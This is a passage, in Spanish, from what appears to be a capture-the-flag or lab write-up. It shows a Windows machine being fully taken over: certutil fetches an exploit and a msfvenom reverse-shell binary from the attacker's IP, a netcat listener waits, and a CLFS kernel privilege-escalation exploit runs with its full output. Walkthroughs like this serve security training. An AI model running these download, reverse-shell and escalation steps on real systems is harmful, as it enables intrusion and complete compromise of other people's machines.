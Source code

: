 ```
PS C:\Users\sam.emerson\Documents> certutil.exe -urlcache -split -f http://10.10.16.29/exploit.exe
```

Creamos un binario `shell.exe` para que nos mande una `reverse shell` a nuestro equipo

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=443 -f exe > shell.exe
```

Nos `transferimos` el archivo `shell.exe` a la máquina víctima

```
PS C:\Users\sam.emerson\Documents> certutil.exe -urlcache -split -f http://10.10.16.29/shell.exe
```

Mos ponemos en `escucha` con `netcat`

```
# rlwrap nc -nlvp 443 
```

`Ejecutamos` el `exploit` 

```
PS C:\Users\sam.emerson\Documents> .\exploit.exe 1208 "C:\Users\sam.emerson\Documents\Shell.exe"
.\exploit.exe 1208 "C:\Users\sam.emerson\Documents\Shell.exe"
Executing command: (null)
[+] Incorrect number of arguments!
[+] Usage: exploit.exe <Token Offset> <Flag> <Program to execute>
[+] Example: exploit.exe 1208 1 calc.exe>
PS C:\Users\sam.emerson\Documents> .\exploit.exe 1208 1 "C:\Users\sam.emerson\Documents\Shell.exe"
.\exploit.exe 1208 1 "C:\Users\sam.emerson\Documents\Shell.exe"
Executing command: C:\Users\sam.emerson\Documents\Shell.exe


ARGUMENTS
[+] TOKEN OFFSET 4b8
[+] FLAG 1


VIRTUAL ADDRESSES AND OFFSETS
[+] NtFsControlFile Address --> 00007FFCCDD84240
[+] pool NpAt VirtualAddress -->FFFFD380743FF000
[+] MY EPROCESSS FFFFBE0BB60BE1C0
[+] SYSTEM EPROCESSS FFFFBE0BB36FF040
[+] _ETHREAD ADDRESS FFFFBE0BB6896080
[+] PREVIOUS MODE ADDRESS FFFFBE0BB68962B2
[+] Offset ClfsEarlierLsn --------------------------> 0000000000013220
[+] Offset ClfsMgmtDeregisterManagedClient --------------------------> 000000000002BFB0
[+] Kernel ClfsEarlierLsn --------------------------> FFFFF80452C13220
[+] Kernel ClfsMgmtDeregisterManagedClient --------------------------> FFFFF80452C2BFB0
[+] Offset RtlClearBit --------------------------> 0000000000343010
[+] Offset PoFxProcessorNotification --------------------------> 00000000003DBD00
[+] Offset SeSetAccessStateGenericMapping --------------------------> 00000000009C87B0
[+] Kernel RtlClearBit --------------------------> FFFFF80450143010
[+] Kernel SeSetAccessStateGenericMapping --------------------------> FFFFF804507C87B0

[+] Kernel PoFxProcessorNotification --------------------------> FFFFF804501DBD00


PATHS
[+] Folder Public Path = C:\Users\Public
[+] Base log file name path= LOG:C:\Users\Public\71
[+] Base file path = C:\Users\Public\71.blf
[+] Container file name path = C:\Users\Public\.p_71
Last kernel CLFS address = FFFFD3806EF69000
numero de tags CLFS founded 9

```